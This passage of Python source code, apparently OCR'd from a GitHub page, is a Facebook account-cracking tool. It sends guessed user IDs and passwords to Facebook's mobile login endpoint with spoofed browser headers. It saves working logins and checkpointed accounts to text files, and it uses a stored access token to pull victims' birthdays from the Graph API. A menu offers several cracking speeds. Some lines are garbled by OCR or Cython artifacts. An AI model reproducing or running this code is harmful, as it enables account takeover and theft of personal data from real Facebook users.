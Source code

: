 			dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
			_headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			po = ses.post("https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
			if 'c_user' in ses.cookies.get_dict():
				print('\r\033[1;37m[\033[1;32mPSYCHO-OK\033[1;37m]\033[1;32m %s | %s      ' % (user,pw))
				wrt = '%s - %s' % (user,pw)
				ok.append(wrt)
				open('Psycho_Ok.txt','a').write('%s\n' % wrt)
				break
			elif 'checkpoint' in ses.cookies.get_dict():
				try:
					token = bayn('token.txt').read()
					cp_ttl = requests.get('https://graph.facebook.com/%s?access_token=%s'%(user,token)).json()['birthday']
					month, day, year = cp_ttl.split('/')
					month = bulan_ttl[month].print('\r\033[1;91m[PICCHI-CP] %s | %s • %s %s %s%s      ' % (user,pw,day,month,year,tahun(user)))
					wrt = '%s - %s - %s %s %s%s' % (user,pw,day,month,year,tahun(user))
					cp.append(wrt)
					open('Picchi_Cp.txt','a').write('%s\n' % wrt)
					break
				except (KeyError, IOError):
					month = ''
					day   = ''
					year  = ''
				except:
					pass
				print('\r\033[1;91m[PICCHI-CP] %s | %s%s      ' % (user,pw,tahun(user)))
				wrt = '%s - %s%s'%(user,pw,tahun(user))
				cp.append(wrt)
				open('Picchi_Cp.txt','a').write('%s\n' % wrt)
				break
			else:
				continue
		loop += 1
	def __pler__(self):
		os.system("clear")
		print(banner)
		print ("\033[1;37m [1] \033[1;36mMETHOD FAST ")
		print ("\033[1;37m [2] \033[1;36mMETHOD NORMEL ")
		print ("\033[1;37m [3] \033[1;36mMETHOD MEDIUM ")
		print(50*"\033[1;97m_")
		yan = input('\033[1;37m[+] \033[1;36mCHOOSE OPTION \033[1;31m: \033[1;32m')
		if yan == '':
			print('\Choose Error ')
			exit()
		elif yan in ('1', '01'):
			os.system("clear")
			print(banner)
			time.sleep(1)
			print('\033[1;37m[+]\033[1;33m FILE CLONING ONLY OK IDS ')
			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
